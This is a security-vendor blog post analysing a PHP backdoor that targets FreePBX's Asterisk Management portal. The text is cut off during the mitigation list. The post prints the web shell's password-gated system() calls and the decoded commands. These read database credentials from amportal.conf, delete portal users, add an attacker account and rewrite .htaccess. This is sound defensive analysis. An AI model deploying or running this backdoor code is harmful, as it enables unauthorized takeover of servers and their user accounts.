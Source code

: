 ```yaml
---
title: Backdoor Targets FreePBX Asterisk Management Portal
url: https://blog.sucuri.net/2022/12/backdoor-targets-freepbx-asterisk-management-portal.html
source: Sucuri Blog
date: 2022-12-16
fetch_date: 2025-10-04T01:39:12.209722
---
```


# Backdoor Targets FreePBX Asterisk Management Portal

[![Sucuri Blog](https://blog.sucuri.net/wp-content/uploads/2023/04/Sucuri_Blog_Header_Logo_342x60.png)](https://blog.sucuri.net/)

* Products
  + [Website Security Platform](https://sucuri.net/website-security-platform/)
  + [Website Firewall (WAF)](https://sucuri.net/website-firewall/)
  + [Multi-Site plans](https://sucuri.net/custom/agency/)
  + [Custom & Enterprise Plans](https://sucuri.net/custom/enterprise/)
  + [Partnerships](https://sucuri.net/partners/)
* Features
  + [Detection  Website Monitoring & Alerts](https://sucuri.net/malware-detection-scanning/)
  + [Protection  Future Website Hacks](https://sucuri.net/website-hack-protection/)
  + [Performance  Speed Up Your Website](https://sucuri.net/website-performance/)
  + [Response  Help For Hacked Websites](https://sucuri.net/website-malware-removal/)
  + [Backups  Disaster Recovery Plan](https://sucuri.net/website-backups/)
* Resources
  + [Guides](https://sucuri.net/guides/)
  + [Webinars](https://sucuri.net/webinars/)
  + [Infographics](https://sucuri.net/infographics/)
  + [Blog](/)
  + [SiteCheck](https://sitecheck.sucuri.net/)
  + [Reports](https://sucuri.net/reports/)
  + [Email Courses](https://sucuri.net/email-courses/)
* [Pricing](https://sucuri.net/website-security-platform/signup)
* [Immediate Help](https://sucuri.net/website-security-platform/help-now/)
* [Login](https://sucuri.net/website-security-platform/signup/)

[![Sucuri Blog](https://blog.sucuri.net/wp-content/uploads/2023/04/Sucuri_Blog_Header_Logo_342x60.png)](https://blog.sucuri.net/)

* Products
  + [Website Security Platform](https://sucuri.net/website-security-platform/)
  + [Website Firewall (WAF)](https://sucuri.net/website-firewall/)
  + [Multi-Site plans](https://sucuri.net/custom/agency/)
  + [Custom & Enterprise Plans](https://sucuri.net/custom/enterprise/)
  + [Partnerships](https://sucuri.net/partners/)
* Features
  + [Detection  Website Monitoring & Alerts](https://sucuri.net/malware-detection-scanning/)
  + [Protection  Future Website Hacks](https://sucuri.net/website-hack-protection/)
  + [Performance  Speed Up Your Website](https://sucuri.net/website-performance/)
  + [Response  Help For Hacked Websites](https://sucuri.net/website-malware-removal/)
  + [Backups  Disaster Recovery Plan](https://sucuri.net/website-backups/)
* Resources
  + [Guides](https://sucuri.net/guides/)
  + [Webinars](https://sucuri.net/webinars/)
  + [Infographics](https://sucuri.net/infographics/)
  + [Blog](/)
  + [SiteCheck](https://sitecheck.sucuri.net/)
  + [Reports](https://sucuri.net/reports/)
  + [Email Courses](https://sucuri.net/email-courses/)
* [Pricing](https://sucuri.net/website-security-platform/signup)
* [Immediate Help](https://sucuri.net/website-security-platform/help-now/)
* [Login](https://sucuri.net/website-security-platform/signup/)

* [Immediate Help](https://sucuri.net/website-security-platform/help-now/)

[Login](https://dashboard.sucuri.net/login/)

[Login](https://dashboard.sucuri.net/login)

New Customer?

[Sign up now.](https://sucuri.net/website-security-platform/signup/)

* [Submit a ticket](https://support.sucuri.net/support/?new)
* [Knowledge base](https://docs.sucuri.net/)
* [Chat now](https://sucuri.net/live-chat/)

Search for:

Search

* [Sucuri Labs](https://blog.sucuri.net/category/sucuri-labs)
* [Website Malware Infections](https://blog.sucuri.net/category/website-malware-infections)
* [Website Security](https://blog.sucuri.net/category/website-security)

# Backdoor Targets FreePBX Asterisk Management Portal

[![](https://secure.gravatar.com/avatar/108fef16f8912ede77125c7646b2cbc2f38b7ad3c2912f7a0b8770570271134c?s=60&d=mm&r=g)](https://blog.sucuri.net/author/krasimir)

[Krasimir Konov](https://blog.sucuri.net/author/krasimir)

* December 15, 2022

![Backdoor Targets FreePBX Asterisk Management Portal](https://blog.sucuri.net/wp-content/uploads/2022/12/BlogPost_Feature-Image_1490x700_Labs-Note-Asterisk-Management-Portal-820x386.png)

Written in PHP and JavaScript, FreePBX is a web-based open-source GUI that manages Asterisk, a voice over IP and telephony server. This open-source software allows users to build customer phone systems.

During a recent investigation, I came across a simple piece of malware targeting FreePBX’s Asterisk Management portal which allowed attackers to arbitrarily add and delete users, as well as modify the website’s **.htaccess** file.

Let’s take a closer look at this backdoor.

## PHP script

The following PHP script was found on a compromised WordPress website.

```
<?php
if ($SERVER["REMOTEADDR"]=="178.162.201.166" && md5($REQUEST['secure'])=="7f02b0ae0869cc5aa38cd7ca6c767c92"){ system($REQUEST['secmd']); }
if(md5($_REQUEST["mgp"])=="4f6e5768b76809bc99bf278494b5f352")
{
echo "login correct
";
echo "";
@system($_REQUEST["c"]);
echo "";

}
system(base64_decode("bXlzcWwg…[TRIMMED]...cqJyk7Ig=="));
system(base64_decode("ZWNobyAnT3JkZX…[TRIMMED]...hY2Nlc3M="));
?>
```

The malware contains a number of checks to restrict access:

* It checks the user’s IP to ensure that it matches **178.162.201.166** (which happens to belong to a network for Leaseweb Deutschland GmbH
* It checks whether the user made a request with a password value that matches the provided md5 hash:

```
if(md5($_REQUEST["mgp"])==
```

If these checks pass, the PHP executes an external command passed in the **secmd** parameter of the request.

From this sample, we can see some base64 encoded strings in the **system** function. Let’s take a look at what those do.

## Commands concealed in base64

Once decoded, the base64 strings reveal the true behavior of the backdoor:

```
mysql `grep AMPDB /etc/amportal.conf|grep "USER\|PASS\|NAME"| sed 's/AMPDBUSER/a/g'|sed 's/AMPDBPASS/b/g'|sed 's/AMPDBNAME/c/g'|sed 's/a=/-u/g'|sed 's/b=/ -p/g'|sed 's/c=/ /g'|tr -d '\n'` --execute "DELETE from ampusers where username!='admin';INSERT INTO ampusers (username,password_sha1,sections) VALUES ('mgknight','33c7a4df46b1a9f7d4a4636d476849205a04c6b7','*');"

echo 'Order Deny,Allow`deny from all`<Files subdirectory/*>`    deny from all`</Files>`<FilesMatch "\..*$">` Deny from all`</FilesMatch>`<FilesMatch "(^$|index\.php|config\.php|\.(gif|GIF|jpg|jpeg|png|css|js|swf|txt|ico|ttf|svg|eot|woff|wav|mp3|aac|ogg|webm)$|bootstrap\.inc\.php)">` Allow from all`</FilesMatch>`php_value max_input_vars 5000'|tr '`' '\n'>.htaccess
```

These decoded strings allow the **system** function to retrieve the amportal database, database user, and password.

The commands use the **grep** and **sed** utilities to manipulate the Asterisk **amportal.conf** configuration file. It then uses the mysql utility to execute an SQL query that deletes users from the database followed by inserting their own malicious user with the name **mgknight**, giving the attackers access to the Asterisk management portal.

If no instructions are provided, the malware defaults to updating the FreeBPX login credentials and adding rules to the .**htaccess** file. These directives specify which files should be allowed or denied access based on their names and location in the directory tree, as well as the value of the **php\_value max\_input\_vars** directives.

## Mitigation steps:

[Backdoors](https://blog.sucuri.net/2022/05/examining-emerging-backdoors.html) are often exploited by attackers to gain unauthorized access to websites long after initial infection has occurred. In this case, the attacker’s simple PHP script provided them with all the power needed to arbitrarily add and modify users in the Asterisk Management Portal — as well as modify the site’s **.htaccess** file.

To mitigate risk, there are a number of steps you can take to protect your website from backdoors:

1. **Keep your software, plugins, themes and extensible components updated.** Always patch to the latest version to ensure you’re protecting against known [software vulnerabilities](https://blog.sucuri.net/category/vulnerability-disclosure).
2. **Use** [**strong and unique passwords**](https://blog.su...